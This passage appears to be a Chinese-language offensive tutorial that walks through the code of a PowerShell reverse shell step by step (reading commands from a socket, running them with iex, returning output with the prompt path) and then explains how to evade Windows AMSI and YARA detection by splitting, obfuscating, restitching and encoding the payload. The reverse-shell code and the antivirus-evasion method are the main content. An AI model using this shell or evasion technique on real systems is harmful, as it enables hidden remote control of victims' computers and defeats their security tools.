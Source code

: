 5、从客户端获取数据。  

```
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
```

6、**iex** 是调用函数的 PowerShell 别名。在这里，**iex 在**数据变量中执行代码，将其转换为字符串，而错误则重定向到空值，然后将其存储在 **$sendback** 变量中。  

```
$sendback = (iex $data 2>&1 | Out-String )
```

7、现在，当前的 PowerShell 路径附加到 **$sendback2** 变量中创建的字符串。  

```
$sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
```

8、变量中的上述字符串转换为套接字可读字节。  

```
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
```

9、上述字节写在流套接字上。  

```
$stream.Write($sendbyte,0,$sendbyte.Length)
```

10、所有字节都刷新到屏幕上。  

```
$stream.Flush()
```

11、while 循环关闭后关闭套接字。  

```
$client.Close()
```

逃避  

-----

现在有趣的部分来了。Windows 使用 AMSI（反恶意软件扫描接口）检测恶意有效负载。现在，对于检测 PowerShell 部分，AMSI 使用基于字符串的检测。

现在，由于上述有效载荷在网络上非常有名，因此很容易创建用于检测上述有效载荷的 YARA 规则。大多数人试图通过将上述代码转换为 base64 来混淆它，但这不行。

因为 AMSI 可以直接检测到 base64 以外的恶意字符串，也可以轻松解码 base64 并检测 PowerShell 命令中使用的字符串。

现在，这里的诀窍是将上述每个命令分别混淆，而不是将它们全部编码在一起。这对规避有效原因是，如果我们拆开有效负载并将其每个有效负载键入到 PowerShell 终端中，它不会被标记为恶意，因为它们都被归类为不同的命令，这些命令是 PowerShell 的合法命令。但是，如果我们把它们缝合在一起，那么脚本就作为一个有效负载，可以很容易地使用 YARA 或基于字符串的检测来检测。所以简单来说，我们的任务是以下步骤：

1.  打破有效载荷
    
2.  混淆每条命令行
    
3.  缝合有效载荷
    
4.  对有效载荷进行编码
    